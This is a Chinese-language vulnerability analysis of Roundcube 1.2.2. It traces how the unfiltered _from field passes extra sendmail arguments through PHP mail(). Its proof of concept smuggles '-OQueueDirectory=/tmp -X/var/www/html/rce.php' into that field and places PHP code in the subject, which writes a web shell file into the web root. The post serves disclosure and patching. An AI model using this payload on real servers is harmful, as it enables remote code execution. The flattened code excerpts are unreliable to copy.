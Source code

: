 ```yaml
---
layout: post
title: "Roundcube1.2.2通过email的命令执行分析"
categories:
- 今日头条
tags:
---
```

![](http://p1.pstatp.com/large/12d800017b599bad7a03)

翻译：sinensis

预估稿费：200RMB（不服你也来投稿啊！）

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

前言



Roundcube是一款开源的网页版收发邮件的软件，它分布很广泛，全球很多组织和公司都在使用。从ScourceForge的镜像来看，过去1年内它有26万的下载量，这还只是实际用户中的一小部分。只要Roundcube在服务器上安装成功，已授权用户的浏览器上就会有一个Roundcube的网页页面，用来收发邮件。

这篇文章我们要展示下一个恶意用户如何在Roundcube 1.2.2版（>= 1.0）写封邮件，就可以远程实现任意命令执行。这个漏洞非常危险，它会影响到所有的默认配置安装。我们强烈建议所有的管理员尽快地将Roundcube更新到最新版本1.2.3。

![](http://p3.pstatp.com/large/12d800017b5af0390e6e)

RIPS只用了25秒就对整个应用有了全面的分析，上图是检测出来的安全漏洞。虽然上图看似列出了很多问题，但大部分问题都不严重，它们可能是安装模块的一部分或是死的遗留代码。但是我们还是建议把这些漏洞修复好，移除遗留代码，避免以后出现安全问题，我们之前的文章有提到类似问题。

漏洞条件



1. Roundcube配置的时候必须允许使用mail()函数(如果没有SMTP未指定，默认开启)

2. PHP的main()函数配置的时候使用sendmail(默认开启）

3. PHP的配置文件中设置safe_mode为off（默认开启）

4. 攻击者需要知道网站的绝对路径

上面四个条件一般来说很容易就可以达成，也就是说网络上很多这样的系统都存在漏洞。

漏洞描述



在Roundcube的1.2.2或者更早的版本，用户的输入未过滤进入到了mail()函数，作为第五个参数然后导致RCE，在这篇文档里将其列为紧急安全等级。问题的根本是因为main()函数会导致PHP调用sendmail。sendmail提供了-X选项来保存所有的邮箱日志到文件，攻击者可以利用这个函数在网站的根目录下生成恶意PHP文件。虽然这个漏洞利用起来比较苛刻，但是RIPS在几秒之内就检测了出来，下面的代码可以触发漏洞：

123program/steps/mail/sendmail.inc$from = rcube_utils::get_input_value(’_from’, rcube_utils::INPUT_POST, true, $message_charset);$sent = $RCMAIL->deliver_message($MAIL_MIME, $from, $mailto,$smtp_error, $mailbody_file, $smtp_opts);

在上面代码里面，deliver_messae()函数获取POST参数_from，赋值给$from作为其第二个参数。

1234567program/lib/Roundcube/rcube.phppublic function deliver_message(&$message, $from, $mailto, &$error, &$body_file = null, $options = null) { if (filter_var(ini_get(‘safe_mode’), FILTER_VALIDATE_BOOLEAN)) $sent = mail($to, $subject, $msg_body, $header_str); else $sent = mail($to, $subject, $msg_body, $header_str, “-f$from”);

跟进deliver_message函数，$from参数进入mail()函数处理，通过使用-f参数获取from来传递给sendmail。

不充分的变量检查



有趣的部分是from参数在此之前经过了正则过滤。正常来说，$from参数内是不可以使用空格，不然可能导致在-f之后添加其他的参数。

使用$IFS或者`符号都不能绕过。但是，中间有一个逻辑流程可以导致过滤失败。

1234567program/steps/mail/sendmail.inc104 else if ($from_string = rcmail_email_input_format($from)) {105 if (preg_match(‘/(\S+@\S+)/‘, $from_string, $m))106 $from = trim($m1, ‘<>‘);107 else108 $from = null;109 }

在105行，用户可以控制的$from参数过滤之后传递给email，但是这个过滤仅仅在rcmail_email_input_format()为TRUE的时候才会有效。

下面我们来看看如何绕过：

1234567891011121314151617181920212223242526272829program/steps/mail/sendmail.incfunction rcmail_email_input_format($mailto, $count=false, $check=true){ global $RCMAIL, $EMAIL_FORMAT_ERROR, $RECIPIENT_COUNT; // simplified email regexp, supporting quoted local part $email_regexp = ‘(\S+|(”[^“]+”))@\S+‘; ⋮ // replace new lines and strip ending ‘, ‘, make address input more valid $mailto = trim(preg_replace($regexp, $replace, $mailto)); $items = rcube_utils::explode_quoted_string($delim, $mailto); $result = array(); foreach ($items as $item) { $item = trim($item); // address in brackets without name (do nothing)863 if (preg_match(‘/^<‘.$email_regexp.‘>$/’, $item)) { $item = rcube_utils::idn_to_ascii(trim($item, ‘<>‘)); $result[] = $item; } ⋮ else if (trim($item)) { continue; } ⋮ } if ($count) { $RECIPIENT_COUNT += count($result); } return implode(‘, ‘, $result);}

rcmail_email_input_format这个函数在863行使用另外一个正则表达式，在匹配email的时候，行末匹配符$已经决定了要匹配的内容。

攻击者的payload不必匹配这个正则，然后在foreach循环之后$result参数仍然是空。在这种情况下，876行的implode()函数会返回一个空的字符串(这样整个函数就会返回FALSE)，于是绕过了过滤。

漏洞POC



当使用Roundcube发送email的时候，截断HTTP请求，修改_from字段：

1example@example.com -OQueueDirectory=/tmp -X/var/www/html/rce.php

上述代码会导致攻击者在网站根目录下生成一个rce.php文件，里面的内容就是_subject的值。请求完成之后，如下的内容就会写入到文件里面：

12345678910111213141516171804731 >>> Recipient names must be specified04731 <<< To: squinty@localhost04731 <<< Subject: <?php phpinfo(); ?>04731 <<< X-PHP-Originating-Script: 1000:rcube.php04731 <<< MIME-Version: 1.004731 <<< Content-Type: text/plain; charset=US-ASCII;04731 <<< format=flowed04731 <<< Content-Transfer-Encoding: 7bit04731 <<< Date: So, 20 Nov 2016 04:02:52 +010004731 <<< From: example@example.com -OQueueDirectory=/tmp04731 <<< -X/var/www/html/rce.php04731 <<< Message-ID: <390a0c6379024872a7f0310cdea24900@localhost>04731 <<< X-Sender: example@example.com -OQueueDirectory=/tmp04731 <<< -X/var/www/html/rce.php04731 <<< User-Agent: Roundcube Webmail/1.2.204731 <<< 04731 <<< Funny e-mail message04731 <<< [EOF]

email的数据解码之后，传递的subject参数会解码为纯文本，然后PHP就会执行其中包含PHP标签的代码。(上面的文本就解析<?php phpinfo() ?>，类似LFI的日志包含）

时间线



日期内容

2016/11/21 第一次联系软件作者

2016/11/22 作者在Github上修复了bug

2016/11/28 作者同意披露这个漏洞

2016/11/28 软件作者更新了最新Roundcube版本1.2.3

总结



Roundcube 1.2.2本身的设计已经可以抵御大部分攻击，同时一大批社区也在一起努力加固软件的安全性。但是像这种比较偏冷门的漏洞还是存在。如果使用自动化测试，不仅仅可以发现这种冷门的漏洞，而且节省了工程师的时间，把更多的精力放在开发更安全的程序上